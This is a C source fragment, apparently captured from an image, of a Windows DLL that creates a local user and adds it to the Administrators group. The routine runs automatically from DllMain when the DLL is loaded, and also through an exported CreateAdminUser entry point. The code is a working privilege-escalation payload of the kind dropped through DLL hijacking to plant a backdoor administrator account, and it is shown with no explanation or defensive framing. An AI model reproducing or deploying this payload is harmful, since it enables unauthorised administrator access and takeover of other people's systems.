 ~~~ c

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                 // local server
        _T("Administrators"),
        0,                    // information level
        (LPBYTE)&gd,
        1                     // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

#ifdef __cplusplus
extern "C" {
#endif
__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow) {
    CreateAdminUserInternal();
}
#ifdef __cplusplus
}
#endif
~~~